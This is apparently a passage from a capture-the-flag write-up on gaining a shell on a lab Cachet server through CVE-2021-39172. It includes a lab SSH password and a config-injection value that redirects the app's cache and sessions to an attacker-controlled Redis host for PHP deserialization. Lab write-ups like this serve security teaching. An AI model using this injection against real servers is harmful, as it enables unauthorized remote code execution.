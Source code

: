     
    oxdf@hacky$ sshpass -p 'E}V!mywu_69T4C}W' ssh john@10.10.11.150
    Permission denied, please try again.
    

But they do work to log into the Cachet instance on port 8000:

![image-20220628183207080](https://0xdfimages.gitlab.io/img/image-20220628183207080.png)

I’ll get the messages from the other rooms, but nothing super interesting.

### Shell as www-data in Container

#### CVE-2021-39172 Background

[This post](https://blog.sonarsource.com/cachet-code-execution-via-laravel-
configuration-injection/) from SonarSource goes into detail on three CVEs,
including CVE-2021-39172, which provides remote code execution. The idea is to
abuse the view used to update configuration details which end up in the `.env`
file used by Laravel. While only certain values are allowed to be changed, but
sending a value with newlines in it, the attacker is able to add additional
values to the file. In Laravel, the first instance of a variable in the `.env`
file is used, so as long as legit value being abused it above the target value
in the file, the attacker’s version will be utilized.

The suggested exploit is to change the `CACHE_DRIVER` key to a Redis server
under the attacker’s control. In that Redis server, I’ll cache a serialized
PHP attack payload that will result in execution when the server connects and
deserializes the payload.

#### Update .env

To exploit this, I’ll go to “Settings” > “Mail”, and click “Save”:

![image-20220629123929419](https://0xdfimages.gitlab.io/img/image-20220629123929419.png)

In Burp, I’ll find that request and send it to Repeater. The body of the POST
shows the different items that are to be updated in the `.env` file:

![image-20220629124225233](https://0xdfimages.gitlab.io/img/image-20220629124225233.png)

I’ll change the `config[mail_driver]` to `config[cache_driver]` and change
`log` to:

    
    
    file
    REDIS_HOST=10.10.14.6
    REDIS_PORT=6379
    SESSION_DRIVER=redis
    

On sending this, I’ve injected three new configurations into the `.env` file.

I’ll open WireShark and filter on `tcp.port==6379`. If I browse to the login
page in a private browsing window (no cookies), I’ll see traffic as a new
session is created:
